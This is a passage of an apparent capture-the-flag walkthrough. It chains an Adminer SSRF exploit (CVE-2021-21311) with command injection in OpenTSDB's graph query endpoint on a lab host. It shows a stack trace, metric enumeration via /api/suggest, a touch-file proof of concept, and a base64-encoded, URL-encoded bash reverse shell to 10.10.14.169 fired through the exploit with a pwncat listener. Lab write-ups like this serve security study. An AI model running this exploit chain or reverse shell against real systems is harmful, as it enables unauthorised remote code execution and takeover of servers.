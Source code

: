 ```
\tat net.opentsdb.core.TSQuery.buildQueries(TSQuery.java:224) ~[tsdb-2.4.0.jar:14ab3ef]
\tat net.opentsdb.tsd.GraphHandler.doGraph(GraphHandler.java:172) ~[tsdb-2.4.0.jar:14ab3ef]
\tat net.opentsdb.tsd.GraphHandler.execute(GraphHandler.java:123) ~[tsdb-2.4.0.jar:14ab3ef]
\tat net.opentsdb.tsd.RpcHandler.handleHttpQuery(RpcHandler.java:282) [tsdb-2.4.0.jar:14ab3ef]
\tat net.opentsdb.tsd.RpcHandler.messageReceived(RpcHandler.java:133) [tsdb-2.4.0.jar:14ab3ef]
\tat net.opentsdb.tsd.ConnectionManager.handleUpstream(ConnectionManager.java:128) [tsdb-2.4.0.jar:14ab3ef]
Caused by: net.opentsdb.uid.NoSuchUniqueName: No such name for 'metrics': 'sys.cpu.nice'
\tat net.opentsdb.uid.UniqueId$1GetIdCB.call(UniqueId.java:450) ~[tsdb-2.4.0.jar:14ab3ef]
\tat net.opentsdb.uid.UniqueId$1GetIdCB.call(UniqueId.java:447) ~[tsdb-2.4.0.jar:14ab3ef]
```

So, it looks like the issue is `No such name for 'metrics': 'sys.cpu.nice'`. Searching "opentsdb metrics list" online finds [this page of the OpenTSDB documentation](http://opentsdb.net/docs/build/html/user_guide/query/examples.html) that gives some query examples. Let's try the `sys.cpu.system` metric listed. Let's run our modified exploit: 

```
python3 CVE-2021-21311.py --host 10.10.14.169 --url http://db.admirer-gallery.htb --redirect "http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.system&o=&ylabel=&xrange=10:10&yrange=[33:system('touch/tmp/poc.txt')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
```

This produces the same error.

Let's see if we can list the available metrics. Searching "opentsdb list all metrics" finds [this StackOverflow answer](https://stackoverflow.com/a/18437210), which links to the [documentation for the `/api/suggest` endpoint](http://opentsdb.net/docs/build/html/api_http/suggest.html). Let's run our Adminer exploit again but this time we'll get the `/api/suggest?type=metrics` endpoint: `python3 CVE-2021-21311.py --host 10.10.14.169 --url http://db.admirer-gallery.htb --redirect "http://127.0.0.1:4242/api/suggest?type=metrics"`. This produces: `["http.stats.web.hits"]`. So, we can use the `http.stats.web.hits` endpoint.

Now, our chained exploit is:

```
python3 CVE-2021-21311.py --host 10.10.14.169 --url http://db.admirer-gallery.htb --redirect "http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system('touch/tmp/poc.txt')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
```

Running this produces `{"plotted":4,"timing":231,"etags":[["host"]],"points":8}`, which means it probably worked!

Now, let's put in a reverse shell instead. We will use the `bash -i >& /dev/tcp/10.10.14.169/28471 0>&1` reverse shell. We base64 encode it to get rid of illegal character so our reverse shell is now: `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNjkvMjg0NzEgMD4mMQ== | base64 -d | bash`. We will also url-encode our payload with [urlencoder.org](https://www.urlencoder.org/) to get: `echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xNjkvMjg0NzEgMD4mMQ%3D%3D%20%7C%20base64%20-d%20%7C%20bash`. We start a listener with `pwncat-cs -lp 28471`. Then, we run the exploit:

```
python3 CVE-2021-21311.py --host 10.10.14.169 --url http://db.admirer-gallery.htb --redirect "http://127.0.0.1:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:http.stats.web.hits&o=&ylabel=&xrange=10:10&yrange=[33:system('echo%20YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xMC4xMC4xNC4xNjkvMjg0NzEgMD4mMQ%3D%3D%20%7C%20base64%20-d%20%7C%20bash')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
```
